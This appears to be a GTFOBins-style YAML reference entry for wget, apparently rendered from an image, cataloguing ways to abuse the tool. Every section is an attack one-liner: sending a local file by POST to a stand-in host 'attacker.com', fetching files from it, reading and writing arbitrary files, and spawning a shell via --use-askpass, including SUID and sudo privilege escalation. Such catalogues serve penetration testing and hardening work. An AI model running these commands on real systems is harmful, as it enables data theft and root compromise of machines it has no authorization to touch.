 ```yaml
---
functions:
  command:
    - code: |
        wget --use-askpass=_command_ 0
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        wget --post-file=$LFILE $URL
  file-read:
    - description: The file to be read is treated as a list of URLs, one per line, which are actually fetched by `wget`. The content appears, somewhat modified, as error messages, thus this is not suitable to read arbitrary binary data.
      code: |
        LFILE=file_to_read
        wget -i $LFILE
  file-write:
    - description: The data to be written is treated as a list of URLs, one per line, which are actually fetched by `wget`. The data is written, somewhat modified, as error messages, thus this is not suitable to write arbitrary binary data.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > $TF
        wget -i $TF -o $LFILE
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        wget $URL -O $LFILE
  suid:
    - code: |
        TF=$(mktemp)
        chmod +x $TF
        echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
        ./wget --use-askpass=$TF 0
  sudo:
    - code: |
        TF=$(mktemp)
        chmod +x $TF
        echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
        sudo wget --use-askpass=$TF 0
---
```

